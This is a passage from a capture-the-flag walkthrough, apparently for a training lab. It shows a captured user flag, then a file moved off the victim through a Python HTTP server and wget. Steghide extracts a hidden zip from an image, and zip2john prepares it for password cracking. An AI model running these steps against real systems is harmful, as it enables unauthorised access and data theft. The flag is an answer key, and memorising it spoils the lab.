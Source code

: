 ```
```
- Let's get the flag from `/user.txt`. 
```
apaar@ubuntu:~$ cat /home/apaar/local.txt
cat /home/apaar/local.txt
{USER-FLAG: e8vpd3323cfvlp0qpxxx9qtr5iq37oww}
```
### Answer
```
{USER-FLAG: e8vpd3323cfvlp0qpxxx9qtr5iq37oww}
```

&nbsp;

### Root Flag
- Let's list out the contents of the directory.
```
apaar@ubuntu:/var/www/files/images$ ls -la
ls -la
total 2112
drwxr-xr-x 2 root root    4096 Oct  3  2020 .
drwxr-xr-x 3 root root    4096 Oct  3  2020 ..
-rw-r--r-- 1 root root 2083694 Oct  3  2020 002d7e638fb463fb7a266f5ffc7ac47d.gif
-rw-r--r-- 1 root root   68841 Oct  3  2020 hacker-with-laptop_23-2147985341.jpg
```
- We can see that there is a JPG image.
- Let's set up a Python3 server so that we can get this file from our attacker machine.
```
apaar@ubuntu:/var/www/files/images$ python3 -m http.server
python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
- On our attacker machine we have to use `wget` to download the JPG file.
```
$ wget http://10.10.159.234:8000/hacker-with-laptop_23-2147985341.jpg
--2023-12-14 15:15:45--  http://10.10.159.234:8000/hacker-with-laptop_23-2147985341.jpg
Connecting to 10.10.159.234:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 68841 (67K) [image/jpeg]
Saving to: ‘hacker-with-laptop_23-2147985341.jpg’

hacker-with-laptop_23-2147985341.jpg                       100%[========================================================================================================================================>]  67.23K   182KB/s    in 0.4s    

2023-12-14 15:15:46 (182 KB/s) - ‘hacker-with-laptop_23-2147985341.jpg’ saved [68841/68841]
```
- Using `steghide` we can check if there is any embedded file or message and extract it.
```
$ steghide extract -sf hacker-with-laptop_23-2147985341.jpg 
Enter passphrase: 
wrote extracted data to "backup.zip".
```
- Let's `unzip` the ZIP file.
```
$ unzip backup.zip                    
Archive:  backup.zip
[backup.zip] source_code.php password: 
```
- In order to unzip it we need a password.
- We can use `zip2john` to convert the ZIP file into a hash.
```
$ zip2john backup.zip > backup_hash
ver 2.0 efh 5455 efh 7875 backup.zip/source_code.php PKZIP Encr: TS_chk, cmplen=554, decmplen=1211, crc=69DC82F3 ts=2297 cs=2297 type=8
```